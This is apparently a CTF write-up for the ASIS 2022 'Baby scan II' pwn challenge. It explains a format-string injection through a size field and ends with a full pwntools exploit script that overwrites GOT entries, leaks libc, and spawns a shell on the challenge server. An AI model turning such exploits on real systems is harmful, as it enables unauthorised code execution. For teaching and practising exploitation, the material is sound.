


### Baby scan II

was a pwn challenge from ASIS CTF quals 2022 edition.

let's check first which protection are on.



ok so no PIE, partial RELRO, no canary..easy skanking...

code source was provided so reverse will be fast :)

```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char size[16], fmt[8], *buf;

  printf("size: ");
  scanf("%15s", size);
  if (!isdigit(*size)) {
    puts("[-] Invalid number");
    exit(1);
  }

  buf = (char*)malloc(atoi(size) + 1);

  printf("data: ");
  snprintf(fmt, sizeof(fmt), "%%%ss", size);
  scanf(fmt, buf);

  exit(0);
}

__attribute__((constructor))
void setup(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  alarm(180);
}
```

Where is the vulnerability here??

if you look at:

`snprintf(fmt, sizeof(fmt), "%%%ss", size)`

we can see that size string, will be inserted between `"%"` and `"s"` char,

size string is checked if it's a correct digit, but if we inject a `"$"` char in the size string,

with a string like for example `"9$"` at the end the `snprintf()` resulting format string will be changed to a positional format string `"%9$s"`, that will take 9th entry on stack and write an unlimited string to this address.  And this `"9$"` string will pass the `isdigit()` test...

ok but we need to control an entry on stack to use it as the destination address where our string will be stored.

for this we will use:

`scanf("%15s", size)`

one thing to note with `scanf()` is that you can pass zeroes to it, only space, newline, tab will stop it's input.

so if we send for example in python:

`p.sendlineafter('size: ', '9$'.ljust(8,b'\x00')+p64(exe.got['exit'])[0:5]))`

the 64bit value (cut to 6bytes to fit in 14bytes), will be stored after the `"9$"` string on stack.

on gdb we can check, that we can reach it at position 9 with `"%9$s"` string with the last `scanf()`


**So now we basically have a write anywhere primitive**


As the program as no PIE, and the GOT is half RELRO, we can write in GOT entries.

so what's the exploitation plan??

+ first we overwrite `exit()` GOT entry, and replace it with `_start` address to restart program at exit

+ second pass, we change `atoi()` GOT entry to `printf()` plt address

+ now that `atoi()` is a `printf()`, we pass a format string to `"size: "` input to dump a libc address, and calculate libc mapping address

+ last write, now we changed `atoi()` GOT entry to `system()` libc address.

+ last but not least, not we send `"1;sh"` string to `"size: "` input, that will be passed to system() and will execute `sh` the shell

  and we got shell !

  seeing is believing..so see it!

  


and the exploit of course..(in case you understand nothing in my explanation..you can still read it..)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

# shortcuts
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "65.21.255.31", "33710"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

# replace exit got entry by _start, to restart at exit
sla('size: ', '9$'.ljust(8,b'\x00')+p64(exe.got['exit'])[0:5])
payload = p64(exe.sym['_start'])[0:6]
sla('data: ', payload)
# replace atoi got entry by printf
sla('size: ', '9$'.ljust(8,b'\x00')+p64(exe.got['atoi'])[0:5])
payload = p64(exe.sym['printf'])[0:6]
sla('data: ', payload)
# leak libc address with atoi/printf
sla('size: ', '1%13$p')
libc.address = int(rcu('1', 'data: '),16) - 0x24083
print('libc base = '+hex(libc.address))
sl('a')
# replace atoi by system
sla('size: ', '9$'.ljust(8,b'\x00')+p64(exe.got['atoi'])[0:5])
payload = p64(libc.sym['system'])[0:6]
sla('data: ', payload)
# execute sh and got shell
sla('size: ', '1;sh')
sl('id;cat flag*')

p.interactive()
```

*nobodyisnobody still pwning things...*